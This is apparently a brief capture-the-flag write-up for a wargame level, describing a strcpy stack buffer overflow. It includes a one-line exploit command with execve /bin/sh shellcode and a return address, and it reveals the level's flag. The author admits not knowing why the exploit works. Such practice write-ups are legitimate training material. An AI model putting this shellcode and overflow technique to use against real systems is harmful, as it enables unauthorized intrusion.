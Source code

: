 ### Level 04
Let's get a copy of the stuff
`scp -P 2264 level4@io.netgarage.org:/levels/level04* .` with password from previous level

Looking through source, we use strcpy to copy however many bytes we want into a buffer. We overwrite a few things and then I think we eventually overwrite the return address at some point

Using pwndbg (and argv[1] = "X"*24+"ABC"), it looks like we overwrite at ABC to jump somewhere.

We can jump to our buffer! 0x600477

I tried about 3 different variants on 24 byte shellcode and then came across a 23 byte version [here](https://www.exploit-db.com/exploits/36858/) which let me follow a suggestion from [here](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/) which is to take a sane value from the stack as the stack pointer.

`./level04 $(python -c 'print ("\x5c\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05\x77\x04\x60")')` I have no idea why it works, but I tried all the 1 byte instructions before and after the shellcode and that worked.

Flag is `IpzNGTYQOK5bh3xC`
